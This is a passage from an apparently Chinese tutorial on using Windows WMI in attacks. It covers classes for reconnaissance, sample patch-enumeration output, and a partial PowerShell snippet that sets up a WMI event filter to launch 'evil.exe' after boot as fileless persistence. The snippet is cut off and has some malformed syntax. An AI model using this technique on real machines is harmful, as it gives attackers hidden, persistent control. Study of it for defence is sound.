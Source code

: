 那么我们常用的类包括下面的几种:

```
下面的 WMI 类是在攻击的侦察阶段可以收集数据的子集:
主机/操作系统信息:Win32_OperatingSystem, Win32_ComputerSystem
文件/目录列举: CIM_DataFile
磁盘卷列举: Win32_Volume
注册表操作: StdRegProv
运行进程: Win32_Process
服务列举: Win32_Service
事件日志: Win32_NtLogEvent
登录账户: Win32_LoggedOnUser
共享: Win32_Share
已安装补丁: Win32_QuickFixEngineering
```
比如这里获取到的补丁信息：

```powershell
PS C:\Users\rootclay> Get-WmiObject -Class Win32_QuickFixEngineering

Source        Description      HotFixID      InstalledBy          InstalledOn
------        -----------      --------      -----------          -----------
WIN-0B8BJI... Hotfix           KB2534111                          2017/9/6 0:00:00
WIN-0B8BJI... Update           KB2999226     WIN-0B8BJI54VH7\r... 2017/10/25 0:00:00
WIN-0B8BJI... Update           KB976902      WIN-0B8BJI54VH7\A... 2010/11/21 0:00:00
```



### WMI触发器

WMI用处可以说是非常的多，但是我们不能一一列举，我们就用一个wmi在攻防中用的最神化的一个功能，无文件持久化控制的例子来举一个实际例子:

那么想要了解到wmi的这项功能，我们先来看看wmi事件的基础:

#### 事件触发条件

1. 事件筛选器

	事件筛选器是什么呢？事件筛选器描述事件并且执行WQL事件查询。

2. 事件消费者

	事件消费者是什么呢？事件消费是一个派生自 __EventConsumer 系统类的类，它表示了在事件触发时的动作。我们常用的消费类有下面两个：
	1. ActiveScriptEventConsumer - 执行嵌入的 VBScript 或 JScript 脚本 payload
	2. CommandLineEventConsumer - 执行一个命令行程序

3. 消费者绑定筛选器

 	消费者绑定筛选器？消费者绑定筛选器就是将筛选器绑定到消费者的注册机制。
 
#### 实例代码
下面我们分析一个实例代码：其中第5个变量为事件筛选器、第6个变量为事件消费者、最后一个就是绑定事件筛选器和事件消费者，也就是通俗理解的执行。这个脚本能达到什么效果呢？事件筛选器在系统启动后的 200 和 320 秒之间被当作一个触发器。在事件被触发时事件消费者会使用`CommandLineEventConsumer `执行已指定好的可执行文件。

```powershell
$filterName='BotFilter82'

$consumerName='BotConsumer23'

$exePath='C:\Windows\System32\evil.exe'

$Query=”SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance 
ISA 'Win32_PerfFormattedData_PerfOS_System' AND 
TargetInstance.SystemUpTime >= 200 AND TargetInstance.SystemUpTime < 320”

$WMIEventFilter=Set-WmiInstance -Class__EventFilter -NameSpace ”root\subscription” -Arguments @ 
{Name=$filterName;EventNameSpace=”root\
cimv2”;QueryLanguage=”WQL”;Query=$Query}
-ErrorActionStop
```